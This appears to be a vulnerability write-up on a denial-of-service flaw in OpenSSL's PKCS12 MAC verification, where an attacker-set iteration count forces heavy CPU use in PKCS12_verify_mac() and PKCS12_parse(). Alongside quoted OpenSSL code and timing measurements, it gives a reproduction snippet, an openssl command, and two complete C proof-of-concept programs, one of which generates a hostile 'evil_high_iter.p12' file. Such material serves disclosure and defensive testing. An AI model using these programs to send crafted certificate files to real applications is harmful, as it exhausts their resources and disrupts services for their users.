

# OpenSSL PKCS12 MAC Iteration Count Denial of Service

**Status:** Confirmed
**Severity:** Medium-High
**Type:** Algorithmic Complexity / Resource Exhaustion (`CWE-400`)
**Affected Area:** `crypto/pkcs12/p12_mutl.c`
**Relevant APIs:** `PKCS12_set_mac()`, `PKCS12_verify_mac()`, `PKCS12_parse()`

## Overview

The PKCS12 MAC iteration count is stored inside the PKCS12 file as an ASN.1 INTEGER. OpenSSL reads that value during MAC verification and uses it directly in the PKCS12 KDF path.

As a result, an attacker can craft a `.p12` or `.pfx` file with an extremely large iteration count and force a victim application to spend large amounts of CPU time in `PKCS12_verify_mac()` or `PKCS12_parse()`.

## Vulnerable Flow

1. A target application calls `PKCS12_parse()`.
2. `PKCS12_parse()` calls `PKCS12_verify_mac()`.
3. `PKCS12_verify_mac()` reads the iteration count from the PKCS12 structure.
4. That value is passed into the PKCS12 KDF path.
5. Verification cost becomes proportional to the attacker-controlled iteration count.

## Relevant OpenSSL Code Path

### `p12_kiss.c`

`PKCS12_parse()` reaches MAC verification before normal parsing completes:

```c
if (PKCS12_mac_present(p12)) {
    if (pass == NULL || *pass == '\0') {
        if (PKCS12_verify_mac(p12, NULL, 0))
            ...
        if (PKCS12_verify_mac(p12, "", 0))
            ...
    }
    if (!PKCS12_verify_mac(p12, pass, -1))
        ...
}
```

This means the attacker-controlled file can trigger one or more expensive verification attempts before the application finishes parsing.

### `p12_mutl.c`

`PKCS12_verify_mac()` extracts the iteration count from the file and forwards it into the MAC generation path:

```c
int PKCS12_verify_mac(PKCS12 *p12, const char *pass, int passlen)
{
    ...
    X509_SIG_get0(p12->mac->dinfo, &algor, NULL);
    ...
    if (!pkcs12_gen_mac(p12, pass, passlen, mac, &maclen,
                        EVP_MD_get_type(md_type), NID_undef)) {
        ...
    }
    ...
}
```

Inside the MAC generation path, the iteration count is taken from the PKCS12 structure:

```c
static int pkcs12_gen_mac(PKCS12 *p12, const char *pass, int passlen,
                          unsigned char *mac, unsigned int *maclen,
                          int id, int nid)
{
    int saltlen, iter;
    unsigned char *salt;
    ...

    salt = p12->mac->salt->data;
    saltlen = p12->mac->salt->length;
    iter = ASN1_INTEGER_get(p12->mac->iter);
    if (iter <= 0)
        iter = 1;

    if (!pkcs12_key_gen_utf8_ex(pass, passlen, salt, saltlen, PKCS12_MAC_ID,
                                iter, PKCS12_SALT_LEN, key, md_type,
                                p12->authsafes->ctx.libctx,
                                p12->authsafes->ctx.propq))
        return 0;
    ...
}
```

The important property here is that `iter` comes from the file and is used directly.

### `p12_key.c`

The derived iteration count is then passed into the PKCS12 KDF:

```c
int PKCS12_key_gen_utf8_ex(const char *pass, int passlen,
                           unsigned char *salt, int saltlen, int id, int iter,
                           int n, unsigned char *out,
                           const EVP_MD *md_type,
                           OSSL_LIB_CTX *libctx, const char *propq)
{
    ...
    *p++ = OSSL_PARAM_construct_int(OSSL_KDF_PARAM_ITER, &iter);
    ...
    if (EVP_KDF_derive(ctx, out, n, params) <= 0)
        ...
}
```

At that point the runtime cost is tied directly to the attacker-controlled `iter` value.

## Measured Timing

| Iterations | `set_mac` | `verify_mac` | Slowdown |
|-----------|-----------|-------------|----------|
| 1 | 0.000s | 0.000s | baseline |
| 1,000 | 0.000s | 0.000s | ~1x |
| 100,000 | 0.017s | 0.019s | ~20x |
| 1,000,000 | 0.153s | 0.150s | ~150x |
| 10,000,000 | 1.535s | 1.519s | ~1500x |
| 100,000,000 | 15.057s | not tested | ~15000x |

At 100 million iterations, a single MAC operation costs about 15 seconds of CPU time. At `INT_MAX` (`2,147,483,647`), the expected verification time rises into the multi-minute range on typical hardware.

## Benchmark Screenshot



## Minimal Reproduction

```c
#include <openssl/pkcs12.h>
#include <openssl/evp.h>

PKCS12_set_mac(p12, "pass", -1, NULL, 0, 100000000, EVP_sha256());
PKCS12_verify_mac(p12, "pass", -1);
```

## Verification Command

```bash
time openssl pkcs12 -in evil_high_iter.p12 -info -passin pass:password -noout
```

## PoC: Timing Harness

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <openssl/pkcs12.h>
#include <openssl/evp.h>
#include <openssl/x509.h>
#include <openssl/err.h>

int main(void)
{
    printf("PKCS12 Iteration Count DoS Test\n");
    printf("================================\n\n");

    EVP_PKEY *pkey = EVP_RSA_gen(2048);
    if (!pkey) { fprintf(stderr, "Key gen failed\n"); return 1; }

    X509 *cert = X509_new();
    X509_set_version(cert, 2);
    ASN1_INTEGER_set(X509_get_serialNumber(cert), 1);
    X509_gmtime_adj(X509_getm_notBefore(cert), 0);
    X509_gmtime_adj(X509_getm_notAfter(cert), 3600);
    X509_set_pubkey(cert, pkey);
    X509_NAME *n = X509_NAME_new();
    X509_NAME_add_entry_by_txt(n, "CN", MBSTRING_ASC, (unsigned char*)"test", -1, -1, 0);
    X509_set_subject_name(cert, n);
    X509_set_issuer_name(cert, n);
    X509_sign(cert, pkey, EVP_sha256());
    X509_NAME_free(n);

    PKCS12 *p12 = PKCS12_create("pass", "test", pkey, cert, NULL, 0, 0, 0, 0, 0);
    if (!p12) { fprintf(stderr, "PKCS12 create failed\n"); return 1; }

    int iterations[] = { 1, 1000, 100000, 1000000, 10000000, 100000000 };
    const char *labels[] = { "1", "1K", "100K", "1M", "10M", "100M" };
    int ntests = sizeof(iterations) / sizeof(iterations[0]);

    for (int t = 0; t < ntests; t++) {
        unsigned char *der = NULL;
        int der_len = i2d_PKCS12(p12, &der);
        if (der_len <= 0) continue;

        const unsigned char *pp = der;
        PKCS12 *p12_copy = d2i_PKCS12(NULL, &pp, der_len);
        if (!p12_copy) { OPENSSL_free(der); continue; }

        printf("  %6s iterations: ", labels[t]);
        fflush(stdout);

        clock_t start = clock();
        int ret = PKCS12_set_mac(p12_copy, "pass", -1, NULL, 0,
                                 iterations[t], EVP_sha256());
        clock_t end = clock();
        double elapsed = (double)(end - start) / CLOCKS_PER_SEC;

        if (ret)
            printf("%.3f sec\n", elapsed);
        else
            printf("FAILED\n");

        if (ret && t < 5) {
            unsigned char *der2 = NULL;
            int der2_len = i2d_PKCS12(p12_copy, &der2);
            if (der2_len > 0) {
                const unsigned char *pp2 = der2;
                PKCS12 *p12_verify = d2i_PKCS12(NULL, &pp2, der2_len);
                if (p12_verify) {
                    start = clock();
                    int vret = PKCS12_verify_mac(p12_verify, "pass", -1);
                    end = clock();
                    elapsed = (double)(end - start) / CLOCKS_PER_SEC;
                    printf("           verify:  %.3f sec (ret=%d)\n", elapsed, vret);
                    PKCS12_free(p12_verify);
                }
                OPENSSL_free(der2);
            }
        }

        PKCS12_free(p12_copy);
        OPENSSL_free(der);
        ERR_clear_error();
    }

    PKCS12_free(p12);
    X509_free(cert);
    EVP_PKEY_free(pkey);

    return 0;
}
```

## PoC: Evil PKCS12 Generator

```c
#include <stdio.h>
#include <openssl/pkcs12.h>
#include <openssl/evp.h>
#include <openssl/x509.h>
#include <openssl/err.h>
#include <openssl/rand.h>

int main(void)
{
    EVP_PKEY *pkey = EVP_RSA_gen(2048);
    if (!pkey) { fprintf(stderr, "Key gen failed\n"); return 1; }

    X509 *cert = X509_new();
    X509_set_version(cert, 2);
    ASN1_INTEGER_set(X509_get_serialNumber(cert), 1);
    X509_gmtime_adj(X509_getm_notBefore(cert), 0);
    X509_gmtime_adj(X509_getm_notAfter(cert), 365 * 24 * 3600);
    X509_set_pubkey(cert, pkey);

    X509_NAME *name = X509_NAME_new();
    X509_NAME_add_entry_by_txt(name, "CN", MBSTRING_ASC,
                               (unsigned char *)"DoS Test Certificate", -1, -1, 0);
    X509_set_subject_name(cert, name);
    X509_set_issuer_name(cert, name);
    X509_sign(cert, pkey, EVP_sha256());
    X509_NAME_free(name);

    PKCS12 *p12 = PKCS12_create("password", "evil-test", pkey, cert,
                                NULL, 0, 0, 0, 0, 0);
    if (!p12) {
        fprintf(stderr, "PKCS12_create failed\n");
        ERR_print_errors_fp(stderr);
        return 1;
    }

    int evil_iterations = 100000000;
    printf("Setting MAC with %d iterations...\n", evil_iterations);

    if (!PKCS12_set_mac(p12, "password", -1, NULL, 0,
                        evil_iterations, EVP_sha256())) {
        fprintf(stderr, "PKCS12_set_mac failed\n");
        ERR_print_errors_fp(stderr);
        return 1;
    }

    FILE *fp = fopen("evil_high_iter.p12", "wb");
    if (!fp) { perror("fopen"); return 1; }
    i2d_PKCS12_fp(fp, p12);
    fclose(fp);

    PKCS12_free(p12);
    X509_free(cert);
    EVP_PKEY_free(pkey);

    return 0;
}
```
